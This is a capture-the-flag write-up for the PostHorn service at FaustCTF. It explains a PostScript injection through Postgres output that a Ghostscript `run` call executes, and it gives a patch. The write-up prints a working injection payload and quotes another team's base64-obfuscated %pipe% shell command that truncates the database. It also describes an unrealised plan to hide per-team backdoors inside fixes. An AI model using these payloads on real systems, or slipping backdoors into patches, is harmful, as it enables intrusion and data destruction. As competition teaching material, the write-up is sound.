



# PostHorn

FaustCTF 2018


PostHorn was a service where we got first blood (🎉🎉🎉) in the 2019 FAUST CTF featuring Post-based technologies, such as

- HTTP Posts
- Postgress 
- Postscript

It featured a CGI Webserver binary (launched by uwsgi.ini):


The binary then executed PostScript files (the stuff that renders PDFs) (!!!) and forwarded the output of ghostscript to the browser.

We quickly decided the stripped binary was too much work... and focussed on the .ps files.

## PostScript

PostScript is an archaic stack-based language.
But it's very different from most things we were used to, for example defining a variable is:

```postscript
/variablename whatever def
```

Its primary use is to render PDFs.
Of course, the interface in the browser was PDFs and embedded forms <3, such as [this](index.pdf):

Due to recent PS-Based CVEs, we found a pretty good introduction here:
https://www.fortinet.com/blog/threat-research/debugging-postscript-with-ghostscript.html

## Postgress

All users and posts were added to a Postgress DB.
The Ghostscript interpreter (interpreting PostScript) then execed `psql` to communicate with the PostScript Database.

The flagbot dropped were droped into there - as message of a user.

The `psql.ps` file was the following:

```PostScript
/sqlgetrow{
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file 1000 string readline pop
} bind def

/sqlescapestring {
	(t) genuuid concatstrings ($) 2 {dup 3 1 roll 2 {concatstrings} repeat} repeat
} bind def

/sqlforallresults {
	/code exch def
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file /fd exch def
	{
        mark fd 512 string readline {
			null (w) .tempfile dup 4 -1 roll writestring closefile
			5 dict dup dup 4 -1 roll run 3 -1 roll exch /posted exch put /post exch put code exec cleartomark
		}{
			cleartomark exit
		} ifelse
	} loop
} bind def
```

This was, indeed, were we found an injection.

In the function(?) (operator?) `/sqlforallresults`, the returns from postscript are being passed to `run`. 
The docs state:
> *run* is a convenience operator that combines the functions of _file_ and _exec_

Inside the sql file, we find: `SELECT format(' (%s)  (%s) ', ...` -> after some deugging, it was clear that the result is then directly interpreted by `gs` (backets being the quotes for strings).
That means, anything with brackets we can inject here will allow for PostScript RCE!

## The Exploit


To exploit, we posted:

```SQL
SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost
```

Since psql then formats this to:

```PostGress
  (SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost) (some_id)  
```

and `gs` `run`s this, it will first
- push the SQL statement to the stack
- execute the `sqlgetrow` operator which pushes the sql result to the stack
- calls `show` on this, outputting the flag to the PDF (see picture above)
- pushes two normal values to the stack to make the normal parsing function happy

At the same time, we started patching.

## The Patch

To fix this issue we sanitized the output of the two provided postgres functions. In particular usernames and the content of the post could be used to trip up the postscript parsing.

We replaced the parentheses with letters, by using the `translate` function, rigerously repacing `(` with `a` and `)` with `b`.

The resulting functions (the original versions were the same without translate) are:

```SQL
CREATE OR REPLACE FUNCTION get_posts(fromuser TEXT, asuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE asuser = username)
        SELECT format(' (%s)  (%s) ', translate(post, '()', 'ab'), posted)
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE user_table.username = fromuser AND access_table.user_id = help.user_id;
$$
LANGUAGE sql;

CREATE OR REPLACE FUNCTION get_friends(fromuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE fromuser = username)
        SELECT DISTINCT format(' (%s)  (%s) ', post_table.user_id, translate(username, '()', 'ab'))
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE access_table.user_id = help.user_id
$$
LANGUAGE sql;
```

## A Nicer Exploit That Should Have Been...

Since flags got deleted by the other teams' exploits, for example with:

```PostScript
%pipe%echo cHNxbCAtYyAnc2VsZWN0ICogZnJvbSBwb3N0X3RhYmxlO1RSVU5DQVRFIHBvc3RfdGFibGUgQ0FTQ0FERTsnfGdyZXAgLW8gJ0ZBVVNUX1tBLVphLXowLTkrL10qJyAK | base64 -d | sh >> /tmp/zalupa) (r) file closefile 0 quit (12345
```

which decodes to

```
psql -c 'select * from post_table;TRUNCATE post_table CASCADE;'|grep -o 'FAUST_[A-Za-z0-9+/]*' 
```

We came up with the idea to:

- fix the service for other teams
- leave a backdoor with backdoor key per team
- profit

Since this could be done inside psql, (with `CREATE OR REPLACE FUNCTION`) leaving the original `sql` file intact, teams might not even have found their own patches and backdoors.


In the end, we failed to do `psql` things the way `psql` wants to do things in time...

Next time...


## Done

Thanks for listening.
Great service with some retro post horny technologies!
Writeup by domenukk and iwo -  thanks to Victor and Lucas. 
